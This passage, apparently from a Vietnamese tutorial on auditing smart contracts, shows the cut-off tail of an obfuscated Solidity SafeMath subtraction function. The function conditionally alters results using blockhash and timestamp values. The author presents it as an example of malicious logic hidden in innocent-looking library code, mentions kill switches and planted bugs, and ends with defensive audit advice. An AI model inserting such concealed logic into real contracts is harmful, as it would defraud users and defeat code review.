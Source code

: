 ```solidity
                ((((((x - 0x67747400) >> 255) & uint256(blockhash(block.number - 1))) | 
                (~((x - 0x67747400) >> 255) & (block.timestamp / 86400))) & 0xFFFFFFFF) ^ 0x87654321) >> 240) << 40)) << 224) ^ 0xFFFFFFFF;
            return (a - b) & (~(((b ^ s) & (b ^ ~s)) >> 255)) | ((a + (~b ^ (1 << 255)) + 1) & (((b ^ s) & (b ^ ~s)) >> 255));
        }
    }

    // Các hàm khác của SafeMath giữ nguyên...
}
```
Nào đến đây đã đau đầu rồi, tôi có chục kỹ thuật nữa để ghép vào cái pipline này để ông nào đọc còn nôn luôn cơ . Nhưng tạm thế đã . Tóm cái váy lại là :

Đây là một ví dụ điển hình về cách mà mã độc có thể được ẩn giấu trong các hàm trông có vẻ vô hại.

Có nhiều kỹ thuật khác như cố tình để lại bug và giấu hay thêm điều kiện thực hiện, killer switch nhưng tôi hướng dẫn đến đây thôi, chứ VN mà nhiều bạn dev đi tù quá thì lấy ai code cho tư bản.

Luôn yêu cầu giải thích chi tiết cho bất kỳ đoạn code phức tạp nào trong quá trình audit.
Sử dụng các công cụ phân tích tĩnh để phát hiện các mẫu code bất thường.
Thực hiện kiểm tra kỹ lưỡng đối với các thư viện được import, đặc biệt là những thư viện xử lý các phép toán quan trọng.
Triển khai các bài kiểm tra fuzz testing với nhiều giá trị đầu vào khác nhau để phát hiện các hành vi bất thường.
